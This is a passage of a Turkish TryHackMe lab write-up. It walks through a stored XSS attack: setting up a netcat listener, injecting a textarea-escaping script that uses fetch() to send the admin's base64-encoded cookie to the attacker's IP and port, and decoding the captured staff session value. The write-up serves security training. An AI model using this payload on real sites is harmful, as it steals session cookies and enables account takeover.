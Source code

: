 İndirme işleminden sonra gelen istekleri dinlememiz lazım. Netcat aracımızı `nc -lvnp <port>` ile çalışmaya başlatıyoruz. \<port> kısmına istediğiniz bir port numarasını yazabilirsiniz ben 1234 portunu yazacağım.

Netcat 1234 portundan gelecek istekleri dinliyor ama hedefimizde olan admin hangi adrese istek atacağını bilmiyor daha o kısımları ayarlamadık. Öncelike THM odasına hangi IP ile bağlandığımızı öğrenmemiz lazım bunun için komut satırımıza `ifconfig` yazıyoruz. Ip adresini hangi cihaza bağlantı yapıldığını belirtmek için kullanacağız.

Bunun için şöyle bir payload kullanacağız:

```
</textarea><script>fetch('http://IP:PORT?cookie=' + btoa(document.cookie) );</script>
```

Bu payloadı açıklamak gerekirse öncelikle \</textarea> tagi ile textarea tagin içinden çıkıyor. Sonrasında verilen IP:Port adresine cookie parametresini base64 ile encode edip parametre olarak gönderiyor.

Ve netcat üzerinden dinleme yaparken adminin cookie değeri bize düşüyor.

<figure><img src="../assets/xss/cikti.png" alt=""><figcaption></figcaption></figure>

Cevaba henüz ulaşamadık bize dönen değer base64 ile encode edildiği için decode işlemi yapmamız lazım. Decode ettikten sonra karşımıza bizden istenen değer çıkıyor ve soruyur bitiriyoruz.

```
staff-session=4AB305E55955197693F01D6F8FD2D321
```


> Bu yazı [*Yavuz Kuk*](https://www.linkedin.com/in/yavuzkuk/) tarafından hazırlanmıştır.